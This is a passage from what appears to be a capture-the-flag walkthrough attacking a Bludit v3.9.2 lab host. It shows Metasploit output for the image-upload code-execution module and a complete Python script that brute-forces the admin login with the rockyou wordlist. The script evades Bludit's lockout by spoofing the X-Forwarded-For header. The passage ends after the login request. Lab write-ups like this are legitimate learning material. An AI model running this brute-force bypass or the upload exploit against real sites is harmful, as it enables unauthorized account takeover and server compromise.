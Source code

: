```
Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2


msf5 exploit(linux/http/bludit_upload_images_exec) > 
```

in the module exploit/linux/http/bludit_upload_images_exec we need some of options required, such as
```
BLUDITPASS - The password for Bludit
BLUDITUSER - The username for Bludit
```
and for RHOST is 10.10.10.191. next step is find the password for bludit administrator. we found the website explains about Bludit Brute Force Mitigation Bypass (https://rastating.github.io/bludit-brute-force-mitigation-bypass/). 

The proof of concept show 
```python
# https://rastating.github.io/bludit-brute-force-mitigation-bypass/
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

# Generate 50 incorrect passwords
##for i in range(50):
##   wordlist.append('Password{i}'.format(i = i))
with open("/usr/share/wordlists/rockyou.txt", "r") as f:
    for line in f.readlines():
        wordlist.append(str(line).strip("\n"))
# Add the correct password to the end of the list
##wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

```